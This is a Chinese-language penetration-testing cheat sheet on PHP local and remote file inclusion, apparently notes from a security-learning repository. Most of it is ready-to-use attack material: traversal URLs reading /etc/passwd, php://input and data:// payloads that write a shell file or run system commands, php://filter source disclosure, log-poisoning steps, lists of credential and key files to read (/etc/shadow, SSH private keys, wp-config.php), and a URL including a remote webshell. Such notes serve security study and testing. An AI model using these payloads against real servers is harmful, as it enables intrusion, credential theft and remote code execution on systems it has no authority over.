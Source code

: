 程序在引用文件的时，引用的文件名，用户可控的情况，传入的文件名没有经过合理的校验或校验不严，从而操作了预想之外的文件，就有可能导致文件泄漏和恶意的代码注入。

## 1、本地包含漏洞：被包含的文件在服务器本地

本地包含漏洞利用

包含/etc/passwd

```http
http://www.webtester.com/include/file01.php?file=../../../../etc/passwd
```

![image-20210412234547940](../acess/image-20210412234547940.png) 

- 利用 上传图片->包含图片Getshell

- 读取文件，读php源代码

- 包含日志文件Getshell

- 包含proc/self/environ 文件getshell

- phpinfo 包含临时文件

- 伪协议

伪协议包含data:// 或者php://等协议(allow_url_include=On)

 1) php://input

说明：

用来接收POST数据。我们能够通过input把我们的语句输入上去然后执行。
条件：

**php <5.0 ，allow_url_include=Off情况下也可以用**
**php > 5.0，只有在allow_url_fopen=On 时才能使用**

URL：

```
http://www.webtester.com/include/file01.php?file=php://input
```

![img](../acess/cgfdcfd.jpg) 

POST：

```php
<?php fputs(fopen("shell.php","a"),"<?php phpinfo();?>") ?>
```

2)data://

说明：
这是一种数据流封装器，data:URI schema(URL schema可以是很多形式)

利用data://伪协议进行代码执行的思路原理和php://是类似的，都是利用了PHP中的流的概念，将原本的include的文件流重定向到了用户可控制的输入流中
条件：

**php > 5.2，allow_url_include=On情况下**

```http
http://www.webtester.com//include/file01.php?file=data:text/plain,<?php system(id)?>
```

![image-20210413225154200](../acess/image-20210413225154200.png) 

```http
http://www.webtester.com//include/file01.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKHdob2FtaSk/Pg==
```

![image-20210413231551981](../acess/image-20210413231551981.png)

3)php://filter

说明：

这个语句用来查看源码。直接包含php文件时会被解析，不能看到源码，所以用filter来读取，不过要先base64加密传输过来：

访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码

```http
http://www.webtester.com/include/file01.php?file=php://filter/read=convert.base64-encode/resource=file01.php
```

![image-20210413231418005](../acess/image-20210413231418005.png) 

4)包含日志文件getshell

需要的权限很大，需要通过burp修改，将shell写入到日志中，然后通过文件包含

/usr/local/apache2/logs/access_log
/logs/access_log
/etc/httpd/logs/access_log
/var/log/httpd/access_log

5）读取网站配置文件

dedecms数据库配置文件data/common.inc.php,
discuz全局配置文件config/config_global.php,
phpcms配置文件caches/configs/database.php
phpwind配置文件conf/database.php
wordpress配置文件wp-config.php

6）包含系统配置文件  

 windows

 C:/boot.ini  //查看系统版本
 C:/Windows/System32/inetsrv/MetaBase.xml  //IIS配置文件
 C:/Windows/repairsam  //存储系统初次安装的密码
 C:/Program Files/mysql/my.ini  //Mysql配置
 C:/Program Files/mysql/data/mysql/user.MYD  //Mysql root
 C:/Windows/php.ini  //php配置信息
 C:/Windows/my.ini  //Mysql配置信息

 linux

 /root/.ssh/authorized_keys
 /root/.ssh/id_rsa
 /root/.ssh/id_ras.keystore
 /root/.ssh/known_hosts
 /etc/passwd
 /etc/shadow
 /etc/my.cnf
 /etc/httpd/conf/httpd.conf
 /root/.bash_history
 /root/.mysql_history
 /proc/self/fd/fd[0-9]*(文件标识符)
 /proc/mounts
 /porc/config.gz

## 2、远程包含：被包含的文件在第三方服务器

条件 php.ini 中的配置项

allow_url_fopen = On
allow_url_include = On

包含远程WEBSHELL

```http
http://www.webtester.com/include/file01.php?file=http://192.168.31.125/x.txt
```

文件是可看得到包含过来的文件最好是个txt。

![image-20210413231146305](../acess/image-20210413231146305.png) 

